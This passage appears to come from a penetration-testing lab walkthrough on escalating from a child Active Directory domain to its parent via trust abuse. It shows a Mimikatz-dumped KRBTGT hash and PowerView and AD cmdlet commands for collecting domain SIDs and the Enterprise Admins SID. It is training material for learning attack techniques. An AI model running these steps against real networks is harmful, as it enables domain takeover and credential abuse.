 ```
    lm  - 0: 69df324191d4a80f0ed100c10f20561e

Supplemental Credentials:

SNIP

```

KRBTGT hash : `9d765b482771505cbe97411065964d5f`.

##### Step 2: getting the SID for the child domain

```powershell
Import-Module .\PowerView.ps1
Get-DomainSID
```

However it was also visible in the Mimikatz output above.

##### Step 3: getting the name of a target user in the child domain (does not need to exist!)

For instance, `hacker`.

##### Step 4: getting the FQDN of the child domain.

It was also visible in the Mimikatz output above: `LOGISTICS.INLANEFREIGHT.LOCAL`.


##### Step 5: getting the SID of the Enterprise Admins group of the root domain

Next, we can use `Get-DomainGroup` from PowerView to obtain the SID for the Enterprise Admins group in the parent domain. 

```powershell
Get-DomainGroup -Domain $domain -Identity "$GroupName" | select distinguishedname,objectsid
# Example: 
# Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
```

We could also do this with the [Get-ADGroup](https://docs.microsoft.com/en-us/powershell/module/activedirectory/get-adgroup?view=windowsserver2022-ps) cmdlet:

```powershell
Get-ADGroup -Identity "$GroupName" -Server "$DomainServer"`
# Example: 
# Get-ADGroup -Identity "Enterprise Admins" -Server "INLANEFREIGHT.LOCAL"
```

Results:

```
distinguishedname                                       objectsid
-----------------                                       ---------
CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL S-1-5-21-3842939050-3880317879-2865463114-519
```
